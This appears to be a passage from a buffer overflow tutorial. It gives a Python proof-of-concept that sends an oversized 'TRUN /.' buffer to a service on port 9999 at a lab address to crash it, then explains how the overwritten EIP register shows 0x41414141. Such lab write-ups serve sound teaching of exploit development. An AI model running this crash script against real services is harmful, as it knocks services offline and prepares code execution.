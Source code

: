 ```python
#!/usr/bin/env python3
# TRUN Step 1 - cause a crash / proof of concept
import socket

size = 4096
target_ip = "10.0.2.74"
target_port = 9999

buf = b""
buf += b"TRUN /."
buf += b"A" * size
buf += b"\n"

s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
s.connect((target_ip, target_port))

# receive banner
banner = s.recv(1024)
print(banner)

# send evil buffer
print(f"Sending evil buffer with {len(buf)} bytes and payload length {size}...")
s.send(buf)

# receive response
a = s.recv(1024)
print(a)

s.close()
print("Done!")
```

The 'A' bytes represent the part of the buffer that we can freely use in order to upload a payload.


## EIP Offset

After running the PoC you might notice that the ESP (Stack Pointer) register points to a specific address in the overwritten stack space. And the EIP (Instruction Pointer) points to a non-existent address 0x41414141 (hex for "AAAA"). The crash was caused because the program tried to jump to that non-existent address.
